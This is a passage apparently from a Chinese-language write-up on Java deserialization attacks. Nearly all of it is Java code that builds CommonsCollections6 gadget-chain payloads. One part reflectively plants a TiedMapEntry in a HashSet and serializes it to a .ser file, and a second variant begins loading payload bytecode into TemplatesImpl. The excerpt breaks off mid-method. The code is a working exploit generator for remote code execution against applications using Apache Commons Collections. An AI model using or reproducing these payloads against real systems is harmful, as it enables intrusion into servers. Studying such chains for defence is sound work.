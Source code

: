 ```
        Field table = HashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        //拿到node节点存储的数据
        Object[] obj = (Object[])table.get(setMap);
        Object node  = obj[0];
        System.out.println(node.getClass().getName());
        //Method[] methods  = node.getClass().getMethods();
        //拿到此时存到hashset中的node节点，key为要修改的点，这里需要修改它为真正的payload，即Tiedmapentry
        System.out.println(node.toString());
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node,entry);
        //hashset的hashmap中的node节点修改完值以后放进hashset
        Field finalMap = newSet.getClass().getDeclaredField("map");
        finalMap.setAccessible(true);
        finalMap.set(newSet,setMap);
        //序列化
        File file;
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections6.ser");
        ObjectOutputStream objOut = new ObjectOutputStream(new FileOutputStream(file));
        objOut.writeObject(newSet);
    `}`
`}`
```

**CommonsCollections6-2.java:(根据cc2特点生成的衍生版2)**

```
package CommonsCollections6;
import CommonsCollections4.payload;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.lang.reflect.Method;
import java.lang.Class;
import java.lang.Runtime;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;
public class exp2 `{`
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException, IOException, CannotCompileException, NotFoundException `{`
        //封装TemplateImpl类
        TemplatesImpl tmp = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass pay_class = pool.get(payload.class.getName());
        byte[] payCode = pay_class.toBytecode();
        Class clazz;
        clazz =Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        //存储payload字节码
        Field byteCode = clazz.getDeclaredField("_bytecodes");
        byteCode.setAccessible(true);
        byteCode.set(tmp,new byte[][]`{`payCode`}`);
        Field name  = clazz.getDeclaredField("_name");
        name.setAccessible(true);
```